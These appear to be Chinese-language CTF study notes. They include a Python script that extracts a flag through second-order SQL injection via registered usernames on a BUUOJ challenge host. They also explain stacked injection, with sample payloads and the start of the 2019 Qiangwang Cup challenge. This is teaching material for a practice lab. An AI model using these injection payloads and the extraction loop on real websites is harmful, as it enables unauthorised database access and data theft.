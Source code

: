 ```plain
url = 'http://735bd6d4-0a6f-4a5d-a508-2af57954e81a.node4.buuoj.cn:81/'

m = ''
for i in range(100):
    payload = "0'+ascii(substr((select * from flag) from {} for 1))+'0".format(i+1)  
    register = {'email':'abc{}@qq.com'.format(i),'username':payload,'password':'123456'}
    login = {'email':'abc{}@qq.com'.format(i),'password':'123456'}
    req = requests.session()
    r1 = req.post(url+'register.php',data = register)
    r2 = req.post(url+'login.php', data = login)
    r3 = req.post(url+'index.php')
    html = r3.text
    soup = BeautifulSoup(html,'html.parser')
    UserName = soup.span.string.strip()
    if int(UserName) == 0:
        break
    m += chr(int(UserName))
    print(m)
    time.sleep(1)

用python310直接运行，下载相对应模块就可以完成flag的获取。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696702-3b3d5737-311f-4bd6-bb34-3894d576f42a.png)

------

- 堆叠注入-数据库类型&强网杯2019随便注

```plain
根据数据库类型决定是否支持多条语句执行
比如select * from news where id=1;create table xiaodi like news;   执行了两条SQL语句
放在本身执行跟放在代码上执行是不同效果的，要看代码是否支持堆叠注入。如果不支持的话，在代码中堆叠注入不能成功。
支持堆叠数据库类型：MYSQL MSSQL Postgresql等
```

在数据库中执行select * from users where id=1;create table xiaodi like users;能够成功，但是代码中能不能成功是要看代码是否支持。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696752-d3843da2-b56f-43f5-8545-aa66517caee3.png)

```plain
如果在浏览器这样子注入http://127.0.0.1:8081/web/mysql/news.php?id=2;create table xiaosedi like users;
他是不会执行成功的，因为代码上没有堆叠注入的条件。SQL监控也监控到SQL语句，但是没有创建表。
参考：https://www.cnblogs.com/backlion/p/9721687.html
强网杯2019随便注
打开网站地址，输入1
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135696820-981973eb-8301-4cb9-9de1-b3ce26ef74c8.png)

```plain
可以看出他把1代入数据库执行，输出结果。
尝试执行';show databases;
```
